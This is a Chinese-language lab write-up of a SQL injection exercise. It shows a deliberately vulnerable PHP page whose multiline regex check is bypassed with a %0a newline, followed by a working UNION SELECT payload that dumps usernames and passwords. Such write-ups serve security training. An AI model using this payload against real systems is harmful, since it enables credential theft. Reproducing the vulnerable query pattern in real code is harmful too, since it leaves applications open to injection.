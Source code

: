 # sql7

进入example7.php

源码
```php
<?php

  require_once('../header.php');
  require_once('db.php');
        if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
                die("ERROR INTEGER REQUIRED");
        }
        $sql = "SELECT * FROM users where id=";
        $sql .= $_GET["id"];

        $result = mysql_query($sql);

        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```
这里使用正则`/^-?[0-9]+$/m`来匹配开头和结尾是否是数字，并且`-`的存在使得传参只能是整数或者负整数
然后还使用了/m这个的意思是匹配多行，本来`^`和`$`匹配一行的开头和结尾，加了/m就匹配多行传的参，但是呢`^`和`$`只匹配第一行
![img](../../../image/sqli/5529649233409.png)
![img](../../../image/sqli/5189350226955.png)
所以呢可以使用url编码`%0a`的换行符进行绕过
payload
```sql
example7.php?id=-1%0a union select 1,(select group_concat("用户名：",name,"->","密码：",passwd separator 0x3c62723e) from users),3,4,5 
```
![img](../../../image/sqli/1458252220089.png)
得到数据

| 请求方式 |                 过滤方式                  |                   注入方式                   |      闭合方式       |
| -------- | ---------------------------------------- | ------------------------------------------- | ------------------- |
| GET      | 匹配第一行开头和结尾是否是正整数或者是负整数 | 使用url编码的%0a进行换行，再联合查询，嵌套查询 | 数字型注入不需要闭合 |
过关！！